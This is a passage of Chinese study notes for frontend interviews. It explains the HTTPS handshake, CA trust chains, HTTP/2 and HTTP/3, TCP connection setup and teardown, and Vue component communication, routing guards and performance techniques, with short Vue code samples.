- 客户端收到证书，校验合法性，主要包括是否在有效期内、证书的域名与请求的域名是否匹配，上一级证书是否有效（递归判断，直到判断到系统内置或浏览器配置好的根证书），如果不通过，则显示 HTTPS 警告信息，如果通过则继续；
- 客户端生成一个用于对称加密的随机 key，并用证书内的公钥 Public 进行加密，发送给服务端；
- 服务端收到随机 key 的密文，使用与公钥 Public 配对的私钥 Private 进行解密，得到客户端真正想发送的随机 key；
- 服务端使用客户端发送过来的随机 key 对要传输的数据进行对称加密，将密文返回客户端；
- 客户端使用随机 key 对称解密密文，得到数据明文；
- 后续 HTTPS 请求使用之前交换好的随机 Key 进行对称加解密。
简化一下：
- 客户端请求服务端，服务端将 CA 证书返回给客户端
- 客户端验证 CA 证书 的合法性，如果不合法就警告，如果合法，就生成随机 key，并且用 CA 证书中的 public 公钥加密，然后发给服务端
- 服务端收到加密 key，用 private 私钥解密，得到 key
- 服务端将响应数据用 key 对称加密后返回客户端
- 客户端用 key 对称解密响应，得到数据明文。
其实就是依赖 CA 证书的公钥私钥互相交换加密 key 的过程。
非对称加密和对称加密
- 对称加密就是双方使用同一个密钥加密和解密。
- 非对称加密就是有两个不同的密钥，公钥和私钥。公钥用来加密，这时密文只能用私钥才能解开。
中间人攻击
- 当服务端向客户端返回公钥 A1 的时候，中间人将其替换成自己的公钥 B1 传送给浏览器。
- 而浏览器此时一无所知，傻乎乎地使用公钥 B1 加密了密钥 K 发送出去，又被中间人截获，中间人利用自己的私钥 B2 解密，得到密钥 K，再使用服务端的公钥 A1 加密传送给服务端，完成了通信链路，而服务端和客户端毫无感知。
CA 机构
- 客户端无法确认收到的公钥是不是真的是服务端发来的。为了解决这个问题，互联网引入了一个公信机构，这就是 CA。
- 私钥除了解密外的真正用途其实还有一个，就是数字签名，其实就是一种防伪技术，只要有人篡改了证书，那么数字签名必然校验失败。具体过程如下
- CA 机构拥有自己的一对公钥和私钥， CA 机构在颁发证书时对证书明文信息进行哈希，将哈希值用私钥进行加签，得到数字签名。明文数据和数字签名组成证书，传递给客户端。
- 客户端得到证书，分解成明文部分 Text 和数字签名 Sig1。用 CA 机构的公钥进行解签，得到 Sig2（由于CA机构是一种公信身份，因此在系统或浏览器中会内置 CA 机构的证书和公钥信息）
- 用证书里声明的哈希算法对明文 Text 部分进行哈希得到 T。当自己计算得到的哈希值 H 与解签后的 Sig2 相等，表示证书可信，没有被篡改
非对称加密的签名过程是，私钥将一段消息进行加签，然后将签名部分和消息本身一起发送给对方，收到消息后对签名部分利用公钥验签，如果验签出来的内容和消息本身一致，表明消息没有被篡改。
在这个过程中，系统或浏览器中内置的 CA 机构的证书和公钥成为了至关重要的环节，这也是 CA 机构公信身份的证明，如果系统或浏览器中没有这个 CA 机构，那么客户端可以不接受服务端传回的证书，显示 HTTPS 警告。
实际上 CA 机构的证书是一条信任链，A 信任 B，B 信任 C，以掘金的证书为例，掘金向 RapidSSL 申请一张证书，而 RapidSSL 的 CA 身份是由 DigiCert Global 根 CA 认证的，构成了一条信任链。
各级 CA 机构的私钥是绝对的私密信息，一旦 CA 机构的私钥泄露，其公信力就会一败涂地。之前就有过几次 CA 机构私钥泄露，引发信任危机，各大系统和浏览器只能纷纷吊销内置的对应 CA 的根证书。
有些老旧的网站会要求使用前下载安装他自己的根证书，这就是这个网站使用的证书并不能在系统内置的 CA 机构和根证书之间形成一条信任链，需要自己安装根证书来构成信任链，这里的风险就要使用者自己承担了。
SPDY
2012 年 Google 一声惊雷提出了 SPDY (发音为"speedy") 的方案，主要解决以下问题：
- 降低延迟：SPDY 采取了多路复用（Multiplexing）。多路复用通过多个请求 stream 共享一个 TCP 连接的方式，降低了创建多个 TCP 的延迟同时提高了带宽的利用率。
- 请求优先级（Request Prioritization）： 多路复用带来一个新的问题是，在连接共享的基础之上有可能会导致关键请求被阻塞。SPDY 允许给每个 request 设置优先级，这样重要的请求就会优先得到响应。比如浏览器加载首页，首页的 html 内容应该优先展示，之后才是各种静态资源文件，脚本文件等加载，这样可以保证用户能第一时间看到网页内容。
- header压缩： 前面提到 HTTP1.x 的 header 很多时候都是重复多余的，而有些 header 的内容在不压缩的情况下则比较“庞大”（例如 cookie 和user-agent 等）。选择合适的压缩算法可以减小包的大小和数量，不仅可以节省资源，还可以缩短数据传递的延迟。
- 基于 HTTPS 的加密协议传输： 保留了 HTTPS 的 TLS 加密特性，大大提高了传输数据的可靠性。
- 服务端推送（Server Push）： 采用了 SPDY 的网页，例如我的网页有一个 sytle.css 的请求，在客户端收到 sytle.css 数据的同时，服务端会将 index.js 的文件推送给客户端，当客户端再次尝试获取 index.js 时就可以直接从缓存中获取到，不用再发请求了。
http 2.0
http 2.0 是基于 SPDY 的。区别：
- HTTP2.0消息头的压缩算法采用HPACK算法，而非SPDY采用的DEFLATE算法。
- HTTP2.0设计初期支持明文HTTP传输，而SPDY强制使用HTTPS，到后期两者都需要使用HTTPS。
新特性：
- 新的二进制格式（Binary Format）： HTTP1.x 的解析是基于文本。基于文本协议的格式解析存在天然缺陷，文本的表现形式有多样性，要做到健壮性考虑的场景必然很多，二进制则不同，只认 0 和 1 的组合。基于这种考虑 HTTP2.0 的协议解析决定采用二进制格式，实现方便且健壮。
- 多路复用（MultiPlexing）： 即连接共享，即每一个 request 都是是用作连接共享机制的。一个 request 对应一个 id，这样一个连接上可以有多个request，每个连接的 request 可以随机的混杂在一起，接收方可以根据 request 的 id 将 request 再归属到各自不同的服务端请求里面。
- header 压缩： 如上文中所言，对前面提到过 HTTP1.x 的 header 带有大量信息，而且每次都要重复发送，HTTP2.0 使用 encoder 来减少需要传输的header 大小，通讯双方各自 cache 一份 header fields 表，既避免了重复 header 的传输，又减小了需要传输的大小。
- 服务端推送（Server Push）： 同 SPDY 一样，HTTP2.0 也具有 Server Push 功能。
有关 http2 需要注意的：
- 根据 IETF 规范，http 2 并不强制要求必须使用 TLS（https）
- 但是主流浏览器 Firefox, Chrome, Safari, Opera, IE, Edge 声明它们只会实现基于 TLS 的 http 2。原因可以查看 why-do-browser-implementations-of-http-2-require-tls 和 https://stackoverflow.com/questions/61051169/is-tls-mandatory-for-http-2
http 2.0 和 http 1.1 的区别
帧和流
- 在 HTTP/2 中，有两个非常重要的概念：帧（frame）和流（stream）
- 在 HTTP 2.0 中，它把数据报的两大部分分成了 header frame 和 data frame。也就是头部帧和数据体帧。帧的传输最终在流中进行，流中的帧，头部(header)帧 和 data 帧可以分为多个片段帧，例如 data 帧即是可以 data = data_1 + data_2 + ... + data_n。
- 流代表了一个完整的请求-响应数据交互过程。它具有如下几个特点：
- 双向性：同一个流内，可同时发送和接受数据。
- 有序性：流中被传输的数据就是二进制帧 。帧在流上的被发送与被接收都是按照顺序进行的。
- 并行性：流中的 二进制帧 都是被并行传输的，无需按顺序等待。但却不会引起数据混乱，因为每个帧都有顺序标号。它们最终会被按照顺序标号来合并。
- 流的创建：流可以被客户端或服务器单方面建立, 使用或共享。
- 流的关闭：流也可以被任意一方关闭。
发展历程
- 多个 Tcp 连接（http 1.0）
在最早的时候没有keep-alive只能创建多个Tcp连接来做多次请求。一次请求完成就会关闭本次的 Tcp 连接，下个请求又要从新建立 Tcp 连接传输完成数据再关闭，造成很大的性能损耗。
- Keep-Alive (http 1.1)
一定时间内，同一域名多次请求数据，只建立一次 HTTP 请求，其他请求可复用每一次建立的连接通道。这样就不用反复建立和断开连接了。
- pipeline (http 1.1)
如果没有管道（pipelining），浏览器必须等待发送第二个资源请求，直到第一个请求的响应被完全接收（使用 Content-Length）。这会为每个请求增加一个往返时间（RTT）延迟，这对Web性能不利。有了管道，浏览器不必等待第一个请求响应数据，现在可以背靠背地发送请求。服务器必须按照接收请求的顺序发送对这些 pipelining 请求的响应。换一种说法：管道解决了请求的队头阻塞，而不是响应的队头阻塞。
- 多路复用（http 2.0）
在一个TCP连接中可以存在多条流，也就是可以发送多个请求，对端可以通过帧中的标识知道属于哪个请求，并且数据被拆成多个帧，拥有序号，等到所有数据帧都被接收后再按照顺序组合成完整的数据。通过这个技术，可以避免旧版本中的队头阻塞问题，极大的提高传输性能。总结一句话就是单个连接上可以并行交错的请求和响应，之间互不干扰。
区别
- http 1.1 是基于文本传输的，http 2.0 使用了二进制来传输数据，实现了帧和流
- http 1.1 使用了 keep-alive 和 pipeline，仍然没有解决响应的队头阻塞问题，而 http 2.0 采用了多路复用，一个连接中可以有多条流，多个请求和响应互不干扰，解决了队头阻塞问题。
- http 2.0 的 header 做了压缩，而且客户端和服务器各自缓存了 header fields 表，重复 header 不再传输
- 服务端推送，还没有收到浏览器的后续的请求，服务器就主动把各种后续需要的资源推送给浏览器。比如，浏览器只请求了index.html，但是服务器把index.html、style.css、example.png全部发送给浏览器。
http 2.0 的缺陷
HTTP/2 是通过分帧并且给每个帧打上流的 ID 去避免依次响应的问题，对方接收到帧之后根据 ID 拼接出流，这样就可以做到乱序响应从而避免请求时的队首阻塞问题。但是 TCP 层面的队首阻塞是 HTTP/2 无法解决的（HTTP 只是应用层协议，TCP 是传输层协议），TCP 的阻塞问题是因为传输阶段可能会丢包，一旦丢包就会等待重新发包，阻塞后续传输。
http 3.0 和 QUIC 协议（quick）
传统的 HTTP 协议是基于传输层 TCP 的协议，而 QUIC 是基于传输层 UDP 上的协议，可以定义成：HTTP3.0 是基于 UDP 的安全可靠的 HTTP2.0 协议。
它解决了什么问题：
- 减少了 TCP 三次握手及 TLS 握手时间
- 多路复用丢包时的线头阻塞问题： QUIC 保留了 HTTP2.0 多路复用的特性，但是即使在多路复用过程中，同一个 TCP 连接上有多个 stream，假如其中一个stream 丢包，在重传前后续的 stream 都会受到影响，而 QUIC 中一个连接上的多个 stream 之间没有依赖。所以当发生丢包时，只会影响当前的 stream，也就避免了线头阻塞问题。
- 优化重传策略： 以往的 TCP 丢包重传策略是：在发送端为每一个封包标记一个编号 (sequence number)，接收端在收到封包时，就会回传一个带有对应编号的 ACK 封包给发送端，告知发送端封包已经确实收到。当发送端在超过一定时间之后还没有收到回传的 ACK，就会认为封包已经丢失，启动重新传送的机制，复用与原来相同的编号重新发送一次封包，确保在接收端这边没有任何封包漏接。
这样的机制就会带来一些问题，假设发送端总共对同一个封包发送了两次 (初始 + 重传)，使用的都是同一个sequence number：编号 N。之后发送端在拿到编号N 封包的回传 ACK 时，将无法判断这个带有编号 N 的 ACK，是接收端在收到初始封包后回传的 ACK。这就会加大后续的重传计算的耗时。QUIC为了避免这个问题，发送端在传送封包时，初始与重传的每一个封包都改用一个新的编号，unique packet number，每一个编号都唯一而且严格递增，这样每次在收到 ACK 时，就可以依据编号明确的判断这个ACK是来自初始封包或者是重传封包。
队头阻塞 Head-of-Line blocking
- http 1.1 的队头阻塞
如果浏览器请求了文件 script.js 和 style.css 文件，会使用 Content-Length 来知道每个响应的结束位置和另一个响应的开始位置。假设 JS 文件比 CSS 大得多。这种情况下，在下载整个 JS 文件之前，CSS 必须等待，尽管它要小得多，其实可以更早地解析。这很容易解决，只需让浏览器在 JS 文件之前请求 CSS 文件。然而，至关重要的是，浏览器无法预先知道这两个文件中的哪一个在请求时会成为更大的文件。
这是 http 1.1 协议设计方式的一个限制。如果只有一个 http 1.1 连接，那么在切换到发送新资源之前，必须完整地传输资源响应。如果前面的资源创建缓慢（例如，从数据库查询动态生成的index.html）或者，如上所述，如果前面的资源很大。这些问题可能会引起队头阻塞问题。这就是为什么浏览器开始为 http 1.1 上的每个页面加载打开多个并行 TCP 连接（通常为6个）。这样，请求可以分布在这些单独的连接上，并且不再有队头阻塞。
这是可行的，但有相当大的开销：建立一个新的 TCP 连接可能是昂贵的（例如在服务器上的状态和内存方面，以及设置 TLS 加密的计算），并且需要消耗一些时间（特别是对于 HTTPS 连接，因为 TLS 需要自己的握手）。
总结：一个大或慢的响应会阻塞之后的其他响应，因此 http 1.1 时期浏览器会同时开启多个 TCP 连接解决此问题，但是多个 TCP 连接会占用更多的内存，而且也增加了握手时间。
- http 2.0 的队头阻塞
http 2.0 为了解决 http 1.1 的这个问题，将 TCP 数据包传递的数据定义成数据帧（data frame）和头部帧（headers frame）这种格式，并且每个帧都标识了一个流 id （stream id）。也就是说一个请求对应一个流（stream），通过流 id 就可以知道这个数据帧属于哪个流（请求），因此就可以在 TCP 连接中交错地发送不同流（请求）的数据帧，等到接收到以后再按照组合成完整的响应数据。
总结：http 2.0 在单个 TCP 连接上通过交错排列块来多路传输多个资源，而不必等待大或慢的响应，可以在同时接收其他资源的数据帧，解决了 http 1.1 的队头阻塞。
- TCP 队头阻塞
TCP 只是传输层协议，它在传输数据包的时候，并不知道这个数据是什么，它只知道它被赋予了一系列字节，它必须从一台计算机传输另一台计算机。它使用特定最大大小（maximum size）的数据包，通常大约为 1450 字节。每个数据包只跟踪它携带的数据的那一部分（字节范围），这样原始数据就可以按照正确的顺序重建。
互联网是一个根本不可靠的网络。在从一个端点到另一个端点的传输过程中，数据包会丢失和延迟。
例子：如果正在传输三个数据包，数据包1（streamid 1），数据包2（streamid 2），数据包3（streamid 1 & streamid 2），并且他们包含两个文件，如果 TCP 数据包2在网络中丢失，但数据包1和数据包3已经到达，会发生什么情况？因此，它知道数据包1的内容可以安全使用，并将这些内容传递给浏览器。然而，它发现数据包1中的字节和数据包3中的字节（放数据包2 的地方）之间存在间隙，因此还不能将数据包3传递给浏览器。TCP 将数据包3保存在其接收缓冲区（receive buffer）中，直到它接收到数据包2的重传副本（这至少需要往返服务器一次），之后它可以按照正确的顺序将这两个数据包都传递给浏览器。换个说法：丢失的数据包2 队头阻塞（HOL blocking）数据包3！
总结：如果一个 TCP 包丢失，所有后续的包都需要等待它的重传，即使它们包含来自不同流的无关联数据。TCP 具有传输层队头阻塞。
- http 3.0 QUIC
TCP 本身不知道什么是流（stream）和帧（frame），因此需要一个新的协议，于是基于 UDP 协议，出现了 QUIC 协议。QUIC 协议将数据帧中的 streamid 放到了 QUIC 数据包中，于是传输过程中就有了流的概念，也就是说将 HTTP 层的流转移到了 QUIC 中（将应用层中的流转移到了传输层中）。
三次握手 四次挥手
三次握手
- 第一次握手：客户端给服务器发送一个 SYN 报文。
- 第二次握手：服务器收到 SYN 报文之后，会应答一个 SYN + ACK 报文。
- 第三次握手：客户端收到 SYN + ACK 报文之后，会回应一个 ACK 报文。
- 服务器收到 ACK 报文之后，三次握手建立完成。
三次握手的作用是为了确认双方的接收与发送能力是否正常。
- 第一次握手：客户端发送网络包，服务端收到了。这样服务端就能得出结论：客户端的发送能力、服务端的接收能力是正常的。
- 第二次握手：服务端发包，客户端收到了。这样客户端就能得出结论：服务端的接收、发送能力，客户端的接收、发送能力是正常的。不过此时服务器并不能确认客户端的接收能力是否正常。
- 第三次握手：客户端发包，服务端收到了。这样服务端就能得出结论：客户端的接收、发送能力正常，服务器自己的发送、接收能力也正常。
如果更详细地描述：
刚开始客户端处于 closed 的状态，服务端处于 listen 状态。然后
- 第一次握手：客户端给服务端发一个 SYN 报文，并指明客户端的初始化序列号 SN(c)。此时客户端处于 SYN_Send 状态。
- 第二次握手：服务器收到客户端的 SYN 报文之后，会以自己的 SYN 报文作为应答，并且也是指定了自己的初始化序列号 ISN(s)，同时会把客户端的 ISN + 1 作为 ACK 的值，表示自己已经收到了客户端的 SYN，此时服务器处于 SYN_REVD 的状态。
- 第三次握手：客户端收到 SYN 报文之后，会发送一个 ACK 报文，当然，也是一样把服务器的 ISN + 1 作为 ACK 的值，表示已经收到了服务端的 SYN 报文，此时客户端处于 establised 状态。
- 服务器收到 ACK 报文之后，也处于 establised 状态，此时，双方以建立起了链接。
- 三次握手过程中可以携带数据吗？
- 第一次、第二次握手不可以携带数据，而第三次握手是可以携带数据的。
- 假如第一次握手可以携带数据的话，如果有人要恶意攻击服务器，那他每次都在第一次握手中的 SYN 报文中放入大量的数据，因为攻击者根本就不理服务器的接收、发送能力是否正常，然后疯狂着重复发 SYN 报文的话，这会让服务器花费很多时间、内存空间来接收这些报文。
- 第三次的话，此时客户端已经处于 established 状态，也就是说，对于客户端来说，他已经建立起连接了，并且也已经知道服务器的接收、发送能力是正常的了，所以能携带数据页没啥毛病。
四次挥手
刚开始双方都处于 establised 状态，假如是客户端先发起关闭请求，则：
- 第一次挥手：客户端发送一个 FIN 报文，报文中会指定一个序列号。此时客户端处于FIN_WAIT1状态。
- 第二次挥手：服务端收到 FIN 之后，会发送 ACK 报文，且把客户端的序列号值 + 1 作为 ACK 报文的序列号值，表明已经收到客户端的报文了，此时服务端处于 CLOSE_WAIT状态。
- 第三次挥手：如果服务端也想断开连接了，和客户端的第一次挥手一样，发给 FIN 报文，且指定一个序列号。此时服务端处于 LAST_ACK 的状态。
- 第四次挥手：客户端收到 FIN 之后，一样发送一个 ACK 报文作为应答，且把服务端的序列号值 + 1 作为自己 ACK 报文的序列号值，此时客户端处于 TIME_WAIT 状态。需要过一阵子以确保服务端收到自己的 ACK 报文之后才会进入 CLOSED 状态
- 服务端收到 ACK 报文之后，就处于关闭连接了，处于 CLOSED 状态。
组件通信
共有 8 种方式：
- props
- $emit / $on
- $children / $parent
- $attrs / $listeners
- ref
- $root
- eventbus
- vuex
按照组件关系分类
- 父子组件
- props
- $emit / $on
- $children / $parent
- $attrs / $listeners
- ref
- 兄弟组件
- $parent
- $root
- eventbus
- vuex
- 跨层级
- eventbus
- vuex
- provide / inject
props
<!--父组件-->
<template>
<div id="app">
<Child v-bind:child="users"></Child>
</div>
</template>
<script>
import Child from "./components/Child"
export default {
name: 'App',
data(){
return {
users:["Eric","Andy","Sai"]
}
},
components:{
"Child":Child
}
}
</script>
<!--子组件-->
<template>
<div class="hello">
<ul>
<li v-for="item in child">{{ item }}</li>
</ul>
</div>
</template>
<script>
export default {
name: 'Hello World',
props:{
child: { //这个就是父组件中子标签自定义名字
type: Array, //对传递过来的值进行校验
required: true //必添
}
}
}
</script>
props 父组件向子组件传递数据
$emit
<!--子组件 Header.vue-->
<template>
<div>
<h1 @click="changeTitle">{{ title }}</h1>
</div>
</template>
<script>
export default {
name: 'header',
data() {
return {
title:"Vue.js Demo"
}
},
methods:{
changeTitle() {
this.$emit("titleChanged","子向父组件传值"); //自定义事件 传递值 “子向父组件传值”
}
}
}
</script>
<!--父组件-->
<template>
<div id="app">
<header v-on:titleChanged="updateTitle"></header>
<!--
与子组件titleChanged 自定义事件保持一致
updateTitle($event)接受传递过来的文字
-->
<h2>{{ title }}</h2>
</div>
</template>
<script>
import Header from "./components/Header"
export default {
name: 'App',
data(){
return{
title:"传递的是一个值"
}
},
methods:{
updateTitle(e){ //声明这个函数
this.title = e;
}
},
components:{
"header": Header,
}
}
</script>
父组件中在子组件标签上绑定一个事件，子组件中 this.$emit 触发这个事件，子向父传递数据
eventBus
import Vue from 'vue'
export defult new Vue()
<!--gg 组件-->
<template id="a">
<div>
<h3>gg 组件</h3>
<button @click="sendMsg">将数据发送给 dd 组件</button>
</div>
</template>
<script>
import bus from './bus'
export default {
methods: {
sendMsg(){
bus.$emit('sendTitle','传递的值')
}
}
}
</script>
<!--dd 组件-->
<template>
<div>
接收 gg 传递过来的值：{{msg}}
</div>
</template>
<script>
import bus from './bus'
export default {
data(){
return {
mag: ''
}
}
mounted(){
bus.$on('sendTitle',(val)=>{
this.mag = val
})
}
}
</script>
vuex
Vuex 实现了一个单向数据流，在全局拥有一个 State 存放数据，当组件要更改 State 中的数据时，必 须通过 Mutation 提交修改信息， Mutation 同时提供了订阅者模式供外部插件调用获取State 数据的 更新。
而当所有异步操作(常见于调用后端接口异步获取更新数据)或批量的同步操作需要走 Action ，但Action 也是无法直接修改 State 的，还是需要通过 Mutation 来修改 State 的数据。最后，根据 State 的变化，渲染到视图上。
- state ： vuex 的唯一数据源，如果获取多个 state , 可以使用 ...mapState 。
export const store = new Vuex.Store({
state: {
productList: [
{
name: 'goods 1',
price: 100
}
]
}
})
- getter : 可以将 getter 理解为计算属性， getter 的返回值根据他的依赖缓存起来，依赖发生变化才会被重新计算。
import Vue from 'vue'
import Vuex from 'vuex';
Vue.use(Vuex)
export const store = new Vuex.Store({
state: {
productList: [
{
name: 'goods 1',
price: 100
}
]
},
getters: {
getSaledPrice: (state) => {
let saleProduct = state.productList.map((item) => {
return {
name: '**' + item.name + '**',
price: item.price / 2
}
})
return saleProduct;
}
}
})
// 获取 getter 计算后的值
export default {
data () {
return {
productList : this.$store.getters.getSaledPrice
}
}
}
- mutation ：更改 vuex 的 state 中唯一的方是提交 mutation 都有一个字符串和一个回调函数。 回调函数就是进行状态修改的地方。并且会接收 state 作为第一个参数 payload 为第二个参 数， payload 为自定义函数， mutation 必须是同步函数。
// 辅助对象 mapMutations
mutations: {
reducePrice: (state, payload) => {
return state.productList.forEach((product) => {
product.price -= payload;
})
}
}
methods: {
reducePrice(){
this.$store.commit('reducePrice', 4)
}
}
- action ： action 类似 mutation 都是修改状态，不同之处：
- action 提交的 mutation 不是直接修改状态
- action 可以包含异步操作，而 mutation 不行
- action 中的回调函数第一个参数是 context ，是一个与 store 实例具有相同属性的方法的对象
- action 通过 store.dispatch 触发， mutation 通过 store.commit 提交
actions: {
reducePriceAsync: (context, payload) => {
setTimeout(()=> {
context.commit('reducePrice', payload);
}, 2000)
}
}
methods: {
reducePriceAsync(){
this.$store.dispatch('reducePriceAsync', 2)
},
}
- module ：由于是使用单一状态树，应用的所有状态集中到比较大的对象，当应用变得非常复杂，store 对象就有可能变得相当臃肿。为了解决以上问题，vuex 允许我们将 store 分割成模块，每个模块拥有自己的 state mutation action getter ，甚至是嵌套子模块从上至下进行同样方式分割。
const moduleA = {
state: {...},
mutations: {...},
actions: {...},
getters: {...}
}
const moduleB = {
state: {...},
mutations: {...},
actions: {...},
getters: {...}
}
const store = new Vuex.Store({
a: moduleA,
b: moduleB
})
store.state.a
store.state.b
$attr/$listeners
多级组件嵌套需要传递数据时，通常使用的方法是通过 vuex。但如果仅仅是传递数据，而不做中间处理，使用 vuex 处理，未免有点大材小用。为此 Vue2.4 版本提供了另一种方法。
- $attrs ：包含了父作用域中不被 prop 所识别 (且获取) 的特性绑定 (class 和 style 除外)。当一个组件没有声明任何 prop 时，这里会包含所有父作用域的绑定 (class 和 style 除外)，并且可以通过 v-bind="$attrs" 传入内部组件。通常配合 inheritAttrs 选项一起使用。
- $listeners ：包含了父作用域中的 (不含 .native 修饰器的) v-on 事件监听器。它可以通过 v-on="$listeners" 传入内部组件
<!--index.vue-->
<template>
<div>
<child-com1 :foo="foo" :boo="boo" :coo="coo" :doo="doo" title="前端工匠">
</child-com1>
</div>
</template>
<script>
const childCom1 = () => import("./childCom1.vue");
export default {
components: { childCom1 },
data() {
return {
foo: "Javascript",
boo: "Html",
coo: "CSS",
doo: "Vue"
};
}
};
</script>
<!--childCom1.vue-->
<template class="border">
<div>
<p>foo: {{ foo }}</p>
<p>childCom1 的$attrs: {{ $attrs }}</p>
<child-com2 v-bind="$attrs"></child-com2>
</div>
</template>
<script>
const childCom2 = () => import("./childCom2.vue");
export default {
components: {
childCom2
},
inheritAttrs: false, // 没有在 props 声明的属性不会被作为普通的 HTML attribute 应用在子组件的根元素上
props: {
foo: String // foo 作为 props 属性绑定
},
created() {
console.log(this.$attrs);
// { "boo": "Html", "coo": "CSS", "doo": "Vue", "title": "前端工匠" }
}
}
</script>
<!--childCom2.vue-->
<template>
<div class="border">
<p>boo: {{ boo }}</p>
<p>childCom2: {{ $attrs }}</p>
<child-com3 v-bind="$attrs"></child-com3>
</div>
</template>
<script>
const childCom3 = () => import("./childCom3.vue");
export default {
components: {
childCom3
},
inheritAttrs: false,
props: {
boo: String
},
created() {
console.log(this.$attrs);
// {"coo": "CSS", "doo": "Vue", "title": "前端工匠" }
}
};
</script>
<!--childCom3.vue-->
<template>
<div class="border">
<p>childCom3: {{ $attrs }}</p>
</div>
</template>
<script>
export default {
props: {
coo: String,
title: String
}
};
</script>
简单来说： $attrs 与 $listeners 是两个对象， $attrs 里存放的是父组件中绑定的非 Props 属性，$listeners 里存放的是父组件中绑定的非原生事件。
provide / inject
Vue2.2.0 新增 API, 这对选项需要一起使用，以允许一个祖先组件向其所有子孙后代注入一个依赖，不论组件层次有多深，并在起上下游关系成立的时间里始终生效。一言而蔽之：祖先组件中通过 provider 来提供变量，然后在子孙组件中通过 inject 来注入变量。
provide / inject API 主要解决了跨级组件间的通信问题，不过它的使用场景，主要是子组件获取上级组件的状态，跨级组件间建立了一种主动提供与依赖注入的关系。
//a.vue
export default {
provide: {
name: 'aaa'
}
}
// b.vue
export default {
inject: ['name'],
mounted () {
console.log(this.name)
}
}
provide 和 inject 绑定并不是可响应的。这是刻意为之的。然而，如果你传入了一个可监听的对象，那么其对象的 property 还是可响应的。所以，上面 A.vue 的 name 如果改变了，B.vue 的 this.name 是不会改变的。
$parent / $children 与 ref
- ref ：如果在普通的 DOM 元素上使用，引用指向的就是 DOM 元素；如果用在子组件上，引用就指向组件实例
- $parent / $children ：访问父 / 子实例
总结
vue 中常用的通信方式由 6 种，分别是： 1. props（父传子） 2. $emit/$on 事件总线（跨层级通信） 3. vuex（状态管理 常用） 优点：一次存储数据，所有页面都可访问 4. $parent/$children（父子 项目中不建议使用）缺点：不可跨层级 4. $attrs/$listeners 5. provide/inject（高阶用法 = 推荐使用） 优点：使用简单 缺点：不是响应式
导航守卫
主要分为三种守卫：
- 全局守卫：beforeEach beforeResolve afterEach
- 路由独享守卫：beforeEnter
- 组件守卫：beforeRouteEnter beforeRouteUpdate beforeRouteLeave
- 一般情况下，传递给守卫的回调函数接收三个参数：to 目标路由，from 离开的路由，next 用来 resolve 当前钩子。
- 如果想要在守卫中使用组件实例，只能使用组件守卫，beforeRouteUpdate 和 beforeRouteLeave 中可以直接访问 this。beforeRouteEnter 不能直接访问 this，需要给 next 函数传递一个回调函数，回调函数会接收一个参数，这个参数是 this。
- afterEach 的回调没有 next 参数。
完整的导航解析流程
- 导航被触发。
- 在失活的组件里调用 beforeRouteLeave 守卫。
- 调用全局的 beforeEach 守卫。
- 在重用的组件里调用 beforeRouteUpdate 守卫 (2.2+)。
- 在路由配置里调用 beforeEnter。
- 解析异步路由组件。
- 在被激活的组件里调用 beforeRouteEnter。
- 调用全局的 beforeResolve 守卫 (2.5+)。
- 导航被确认。
- 调用全局的 afterEach 钩子。
- 触发 DOM 更新。
- 调用 beforeRouteEnter 守卫中传给 next 的回调函数，创建好的组件实例会作为回调函数的参数传入。
性能优化
- 路由懒加载
- keep-alive
- v-show
- v-for 和 v-if 避免同时使用
- 长列表优化
- 纯粹数据展示，不需要响应式数据，将数据 Object.freeze()
- 使用虚拟滚动库，之渲染部分区域的内容
- 事件的销毁。销毁无用的定时器
- 图片懒加载
- 第三方插件按需引入
- 无状态组件标记为函数式组件
- 子组件分割
- 变量本地化
- ssr
详细
- 路由懒加载
路由配置中指定 component 参数时使用 import() 动态 import 语法，定义一个能够被 Webpack 自动代码分割的异步组件。
const router = new VueRouter({
routes: [
{ path: '/foo', component: () => import('./Foo.vue')}
]
})
- keep-alive
<template>
<div id="app">
<keep-alive>
<router-view/>
</keep-alive>
</div>
</template>
- v-show
<template>
<div class="cell">
<!--这种情况用 v-show 复用 DOM，比 v-if 效果好 -->
<div v-show="value" class="on">
<Heavy :n="10000"/>
</div>
<section v-show="!value" class="off">
<Heavy :n="10000"/>
</section>
</div>
</template>
- v-for 和 v-if 避免同时使用
<template>
<ul>
<li
v-for="user in activeUsers"
:key="user.id">
{{ user.name }}
</li>
</ul>
</template>
<script>
export default {
computed: {
activeUsers: function () {
return this.users.filter(function (user) {
return user.isActive
})
}
}
}
</script>
- 长列表优化
- 纯粹数据展示，不需要响应式数据，将数据 Object.freeze()
export default { data: () => ({ users: [] }), async created() { const users = await axios.get("/api/users"); this.users = Object.freeze(users); } };- 使用虚拟滚动库，之渲染部分区域的内容
<recycle-scroller class="items" :items="items" :item-size="24" > <template v-slot="{ item }"> <FetchItemView :item="item" @vote="voteItem(item)" /> </template> </recycle-scroller> // vue-virtual-scroller、vue-virtual-scroll-list - 事件的销毁。销毁无用的定时器
created() {
this.timer = setInterval(this.refresh, 2000)
},
beforeDestroy() {
clearInterval(this.timer)
}
- 图片懒加载
<img v-lazy="/static/img/1.png">
// vue-lazyload
- 第三方插件按需引入
import Vue from 'vue';
import { Button, Select } from 'element-ui';
Vue.use(Button)
Vue.use(Select)
- 无状态组件标记为函数式组件
函数式组件只是一个接受一些 prop 的函数，这意味它无状态 (没有响应式数据)，也没有实例 (没有 this 上下文)。
<template functional>
<div class="cell">
<div v-if="props.value" class="on"></div>
<section v-else class="off"></section>
</div>
</template>
<script>
export default {
props: ['value']
}
</script>
- 子组件分割
将数据变化频繁的地方单独提取成组件可以优化性能，因为这样 diff 的时候少比较了一些不变化的节点。
- 变量本地化
<template>
<div :style="{ opacity: start / 300 }"> {{ result }}</div>
</template>
<script>
import { heavy } from '@/utils'
export default {
props: ['start'],
computed: {
base () {
return 42
},
result () {
const base = this.base // 不要频繁引用
this.base let result = this.start
for (let i = 0; i < 1000; i++) {
result += heavy(base)
}
return result
}
}
}
</script>
- ssr
keep-alive 应用
缓存列表页
主页 --> 列表页--> 详情页，详情页 --> 主页 --> 列表页
我们希望，
- 从详情页返回列表页的时候页面的状态是缓存，不用重新请求数据，提升用户体验。
- 从列表页返回主页的时候页面，注销掉列表页，以在进入不同的列表页的时候，获取最新的数据。
- 2 个 router-view
<keep-alive>
<!-- 需要缓存的视图组件 -->
<router-view v-if="$route.meta.keepAlive">
</router-view>
</keep-alive>
<!-- 不需要缓存的视图组件 -->
<router-view v-if="!$route.meta.keepAlive">
</router-view>
- router 里定义需要被缓存的视图
new Router({
routes: [
{
path: '/',
name: 'index',
component: () => import('./views/keep-alive/index.vue')
},
{
path: '/list',
name: 'list',
component: () => import('./views/keep-alive/list.vue'),
meta: {
